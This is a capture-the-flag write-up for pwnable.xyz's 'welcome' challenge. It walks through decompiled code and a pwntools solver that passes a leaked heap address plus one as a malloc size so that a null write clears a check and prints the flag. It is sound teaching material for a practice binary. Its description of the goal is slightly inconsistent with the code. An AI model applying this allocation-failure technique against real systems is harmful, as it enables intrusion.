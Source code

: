 # Welcome

<img align="left" width="100" height="24" src="https://img.shields.io/badge/category-pwn-blueviolet"><br></br>

# Synopsis

Take advantage of the leaked address and use it as a size so that `malloc` fails and returns zero.

# Description

Are you worthy to continue?        

## Skills Required

- `man` page of `malloc`.

## Skills Learned

- `malloc` fails when trying to allocate negative size, returning 0.

# Enumeration

First of all, we start with a `checksec`:  

```console
pwndbg> checksec
[*] '/home/w3th4nds/github/pwnable.xyz/welcome/welcome_xyz'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
```

### Protections 🛡️

As we can see:

| Protection | Enabled  | Usage   |
| :---:      | :---:    | :---:   |
| **Canary** | ✅      | Prevents **Buffer Overflows**  |
| **NX**     | ✅       | Disables **code execution** on stack |
| **PIE**    | ✅      | Randomizes the **base address** of the binary |
| **RelRO**  | **Full** | Makes some binary sections **read-only** |

The program's interface: 

```console
Welcome.
Leak: 0x7f583a325010
Length of your message: 123
Enter your message: 123
123
```

From the interface, the only thing we can get is a leak, which is not  shown here as it gets deleted after 1 second. Apart from that, we cannot find an obvious bug in the program.

### Disassembly

Starting with `main()`:

```c
undefined8 main(void)

{
  long *malloc_ret_value;
  void *__buf;
  long in_FS_OFFSET;
  size_t length;
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  setup();
  puts("Welcome.");
  malloc_ret_value = (long *)malloc(0x40000);
  *malloc_ret_value = 1;
  __printf_chk(1,"Leak: %p\n",malloc_ret_value);
  __printf_chk(1,"Length of your message: ");
  length = 0;
  __isoc99_scanf(&DAT_00100c50,&length);
  __buf = malloc(length);
  __printf_chk(1,"Enter your message: ");
  read(0,__buf,length);
  *(undefined *)((long)__buf + (length - 1)) = 0;
  write(1,__buf,length);
  if (*malloc_ret_value == 0) {
    system("cat /flag");
  }
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

There are some interesting things here:

- We get a leak of the address returned from `malloc`:
  ```c
  malloc_ret_value = (long *)malloc(0x40000);
  *malloc_ret_value = 1;
  __printf_chk(1,"Leak: %p\n",malloc_ret_value);
  ```

- `  __isoc99_scanf(&DAT_00100c50,&length); `reads an `unsigned long integer`.

  ```c
                               DAT_00100c50                                    XREF[1]:     main:00100984(*)  
          00100c50 25              ??         25h    %
          00100c51 6c              ??         6Ch    l
          00100c52 75              ??         75h    u
          00100c53 00              ??         00h
  ```

- The `length` we give to `scanf`, is used to allocate memory to another buffer: `buf = malloc(length);`

  We write up to the given `length`  bytes to this buffer: `  read(0,__buf,length);`

  The last  byte of the buffer (in reality, `length - 1`) is assigned to 0: `*(undefined *)((long)__buf + (length - 1)) = 0;`

  Then, it checks if the address of the first allocated buffer is 0. If it is, it will call `system("cat /flag");`.

### Debugging 

There are some things we need to take into consideration. From the `man` page of `malloc`:

> RETURN VALUE The malloc() and calloc() functions return a pointer to the allocated  memory, which is suitably aligned for any built-in type.   On error,  these  functions return NULL.  NULL may also be returned by a  successful call to malloc() with a size of zero, or by a suc‐ cessful call to calloc() with nmemb or size equal to zero.

So, `malloc` can return 0 if the size (which we control), is 0 or if it fails. `malloc` fails when a negative value is given. Thus, the leaked address we get e.g. `0x7fad99950010`, will result in an integer overflow.

```console
>>> 0x7fad99950010
140383582748688
>>> 4294967295
```

This address as a decimal number is `140383582748688`. The `UINT_MAX` value is `4294967295`.

#### Exploitation path

The goal is to call `system("/bin/sh")`. To do so, we need to make `*malloc_ret_value == 0` true. The only place we have access over this address, is this: `  *(undefined8 *)((long)__buf + (length - 1)) = 0;`

Well, we don't have exact access there, but we can tamper with the leaked address. If we enter the `leaked address + 1` as size, it will result in a negative number, making `malloc` fail and return 0. After `malloc` returns zero, `*__buf` will be 0. Then, we have `leaked address + 1`. When we combine it with this one `*(undefined8 *)((long)__buf + (local_30 - 1)) = 0;`, it will make the leaked address (`*malloc_ret_value`) == 0, passing the comparison and giving the flag.

# Solution

```python
#!/usr/bin/python3
from pwn import *
import warnings
import os
warnings.filterwarnings('ignore')
context.arch = 'amd64'
context.log_level = 'critical'

LOCAL = False

if LOCAL:
  print('Running solver locally..\n')
  r    = process(fname)
else:
  IP   = str(sys.argv[1]) if len(sys.argv) >= 2 else '0.0.0.0'
  PORT = int(sys.argv[2]) if len(sys.argv) >= 3 else 1337
  r    = remote('svc.pwnable.xyz', 30000)

# Leak address
r.recvuntil('Leak: ')
leak = int(r.recvline().strip(), 16)
print(f'Leaked address: {leak:#04x}')

# Send leaked address + 1
r.sendlineafter('Length of your message: ', str(leak + 1))
r.sendlineafter('Enter your message: ', 'pwned');

r.interactive()
```

```console
welcome git:master ❯ python solver.py                                                                                                       ✭
Leaked address: 0x7f2054068010
FLAG{REDACTED}$ 
```

